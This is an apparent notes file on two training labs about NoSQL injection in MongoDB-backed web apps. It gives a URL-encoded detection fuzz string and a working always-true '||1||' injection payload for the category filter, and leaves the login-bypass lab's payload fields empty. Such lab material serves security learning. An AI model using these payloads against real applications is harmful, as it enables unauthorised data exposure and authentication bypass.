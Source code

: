 ```
Lab: Detecting NoSQL injection

APPRENTICE

The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.
```

* Payload use to detect : `'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00`
* Payload to exploit the vuln : `category=Clothing%2c+shoes+and+accessories%27%7c%7c%31%7c%7c%27`

```
Lab: Exploiting NoSQL operator injection to bypass authentication

APPRENTICE

The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.

To solve the lab, log into the application as the administrator user.

You can log in to your own account using the following credentials: wiener:peter. 
```

* Payload use to detect : ` `
* Payload to exploit the vuln : ` `
